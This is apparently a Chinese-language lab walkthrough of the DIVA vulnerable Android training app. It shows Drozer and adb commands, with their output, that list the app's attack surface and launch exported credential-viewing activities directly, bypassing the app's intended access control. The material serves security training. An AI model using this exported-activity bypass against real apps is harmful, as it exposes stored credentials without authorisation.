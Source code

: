 ```yaml
---
title: Test DIVA - activity exported
tags: [Android, Drozer]

category: "Tools/Others/Android Related/Drozer/Test DIVA"
---
```


* DIVA - [Download](https://payatu.com/wp-content/uploads/2016/01/diva-beta.tar.gz)

# Test DIVA - activity exported
參考[^csdn-diva-1][^安全客-diva-1][^安全客-diva-2][^hacktricks-diva-sieve]
1. 起手式 - 確認App資訊
    ```bash
    dz> run app.package.list -f diva
    Attempting to run shell module
    jakhar.aseem.diva (Diva)
    
    dz> run app.package.info -a jakhar.aseem.diva
    Attempting to run shell module
    Package: jakhar.aseem.diva
      Application Label: Diva
      Process Name: jakhar.aseem.diva
      Version: 1.0
      Data Directory: /data/user/0/jakhar.aseem.diva
      APK Path: /data/app/~~ieYmYeSxvDRbS7R8da3n_g==/jakhar.aseem.diva--xnWMS5i2UVEuuoE1JHskg==/base.apk
      UID: 10282
      GID: [3003]
      Shared Libraries: [/system/framework/android.test.base.jar, /system/framework/org.apache.http.legacy.jar]
      Shared User ID: null
      Uses Permissions:
      - android.permission.WRITE_EXTERNAL_STORAGE
      - android.permission.READ_EXTERNAL_STORAGE
      - android.permission.INTERNET
      - android.permission.POST_NOTIFICATIONS
      - android.permission.ACCESS_MEDIA_LOCATION
      - android.permission.READ_MEDIA_AUDIO
      - android.permission.READ_MEDIA_VIDEO
      - android.permission.READ_MEDIA_IMAGES
      Defines Permissions:
      - None

    dz> run app.package.attacksurface jakhar.aseem.diva
    Attempting to run shell module
    Attack Surface:
      3 activities exported
      0 broadcast receivers exported
      1 content providers exported
      0 services exported
        is debuggable
    ```
    package name: jakhar.aseem.diva
    attack surface: activities exported/content providers exported/is debuggable
2. 確認activiy的資訊
    ```bash
    dz> run app.activity.info -a jakhar.aseem.diva
    Attempting to run shell module
    Package: jakhar.aseem.diva
      jakhar.aseem.diva.MainActivity
        Permission: null
      jakhar.aseem.diva.APICredsActivity
        Permission: null
      jakhar.aseem.diva.APICreds2Activity
        Permission: null
    ```
    目前有兩個被export的activity，分別啟動後如下
    ```bash
    dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICredsActivity
    ```
    ![Screenshot_20240604-155745](https://hackmd.io/_uploads/By3VCB340.png =200x)

    ```bash
    dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICreds2Activity
    ```
    ![Screenshot_20240604-161940](https://hackmd.io/_uploads/ryTHAS3EA.png =200x)
    按照[^安全客-diva-2]的說明，這是==9.Access Control Issue - Part 1==題目的畫面，原本的設想是不要按`VIEW API CREDENTIALS`這個按鈕也可以取得上面的機敏資料
    
## 另外一種解法
按照[^安全客-diva-2]作者用另外一種方式去load這個activity，先看AndroidManifest.xml，當中有特別寫到這個activity是用intent-filter當作這個activity的類似保護的東西
```xml
<activity android:label="@string/apic_label" android:name="jakhar.aseem.diva.APICredsActivity">
    <intent-filter>
        <action android:name="jakhar.aseem.diva.action.VIEW_CREDS"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
<activity android:label="@string/apic2_label" android:name="jakhar.aseem.diva.APICreds2Activity">
    <intent-filter>
        <action android:name="jakhar.aseem.diva.action.VIEW_CREDS2"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
```
會發現前面找到的兩個activity都出現在這邊，那是否我可以直接用adb，啟動這個activity，並且給予他指定的intent，答案是肯定的
```bash
$ adb shell am start -n jakhar.aseem.diva/.APICredsActivity -a jakhar.aseem.diva.action.VIEW_CREDS
Starting: Intent { act=jakhar.aseem.diva.action.VIEW_CREDS cmp=jakhar.aseem.diva/.APICredsActivity }
$ adb shell am start -n jakhar.aseem.diva/.APICreds2Activity -a jakhar.aseem.diva.action.VIEW_CREDS2
Starting: Intent { act=jakhar.aseem.diva.action.VIEW_CREDS2 cmp=jakhar.aseem.diva/.APICreds2Activity }
```
`am start`: 啟動一個activity
`-n <package name + /. + activity class name>`: 指定哪一個activity
`-a <specified intent>`: 指定的 action，用於告訴應用程式以特定方式處理這個啟動動作

按照上面的指示，就會出現剛剛一樣的畫面了
# Reference
[^csdn-diva-1]:[DIVA靶場測試APP客戶端不規範項（一）](https://blog.csdn.net/weixin_44309905/article/details/123764180)
[^hacktricks-diva-sieve]:[Drozer Tutorial](https://book.hacktricks.xyz/v/cn/mobile-pentesting/android-app-pentesting/drozer-tutorial)
[^安全客-diva-1]:[【技術分享】Android App常見安全問題演練分析系統-DIVA-Part1](https://www.anquanke.com/post/id/84603)
[^安全客-diva-2]:[【技術分享】Android App常見安全問題演練分析系統-DIVA-Part2](https://www.anquanke.com/post/id/86057)